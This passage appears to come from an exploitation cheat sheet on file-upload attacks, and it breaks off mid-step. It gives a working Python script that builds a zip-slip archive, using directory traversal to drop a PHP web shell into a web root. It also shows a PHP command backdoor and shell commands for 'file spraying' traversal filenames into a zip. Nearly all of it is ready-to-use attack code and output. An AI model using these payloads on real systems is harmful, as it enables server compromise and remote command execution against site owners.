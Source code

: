 > Note that another option you may be thinking of to bypass this check is to make the HTTP server redirect to a different file, so the initial URL will bypass the check by then wget will download the redirected file with the new name. This won't work unless wget is being used with the parameter --trust-server-names because wget will download the redirected page with the name of the file indicated in the original URL.


## python code to create a malicious zip
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.writestr('otherfile.xml', 'Content of the file')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close() 

create_zip()

```

* To achieve remote command execution I took the following steps:
1. Create a PHP shell:
```php
<?php 
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}?>

```

2. Use “file spraying” and create a compressed zip file:
```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# ls *.php
simple-backdoor.php  xxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAcmd.php           xxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAxxAcmd.php        xxAxxAxxAxxAxxAcmd.php  xxAxxAxxAxxAxxAxxAxxAxxAcmd.php
root@s2crew:/tmp# zip cmd.zip xx*.php
  adding: xxAcmd.php (deflated 40%)
  adding: xxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
root@s2crew:/tmp#

```
3. Use a hexeditor or vi and change the “xxA” to “../”, I used vi:
```bash
:set modifiable
```